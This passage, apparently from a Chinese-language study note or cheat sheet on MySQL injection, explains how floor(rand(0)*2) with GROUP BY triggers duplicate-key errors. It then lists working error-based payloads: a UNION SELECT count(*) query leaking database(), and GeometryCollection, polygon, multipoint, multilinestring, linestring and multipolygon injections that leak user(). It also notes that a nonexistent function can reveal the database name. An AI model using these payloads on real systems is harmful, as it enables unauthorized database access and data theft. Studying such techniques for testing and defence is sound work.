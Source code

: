 > ![image-20231207224526377](../../_Attachment/mysql注入及Trick小结.assets/image-20231207224526377.png)
>
> 4.查询第三条记录，再次计算floor(rand(0)*2)，发现结果为0(第4次计算)，查询虚表，发现键值没有0，则数据库尝试插入一条新的数据，在插入数据时floor(rand(0)*2)被再次计算，作为虚表的主键，其值为1(第5次计算)，然而1这个主键已经存在于虚拟表中，而新计算的值也为1(主键键值必须唯一)，所以插入的时候就直接报错了。
>
> 5.整个查询过程floor(rand(0)*2)被计算了5次，查询原数据表3次，所以这就是为什么数据表中需要3条数据，使用该语句才会报错的原因。
>
> 引自：——[Mysql报错注入原理分析(count()、rand()、group by)](http://drops.wooyun.org/tips/14312)

payload用法: `union select count(*),2,concat(':',(select database()),':',floor(rand()*2))as a from information_schema.tables group by a`

### 几何函数

- GeometryCollection：`id=1 AND GeometryCollection((select * from (select* from(select user())a)b))`
- polygon()：`id=1 AND polygon((select * from(select * from(select user())a)b))`
- multipoint()：`id=1 AND multipoint((select * from(select * from(select user())a)b))`
- multilinestring()：`id=1 AND multilinestring((select * from(select * from(select user())a)b))`
- linestring()：`id=1 AND LINESTRING((select * from(select * from(select user())a)b))`
- multipolygon() ：`id=1 AND multipolygon((select * from(select * from(select user())a)b))`

### 不存在的函数

随便适用一颗不存在的函数，可能会得到当前所在的数据库名称。

![image-20231207224613085](../../_Attachment/mysql注入及Trick小结.assets/image-20231207224613085.png)
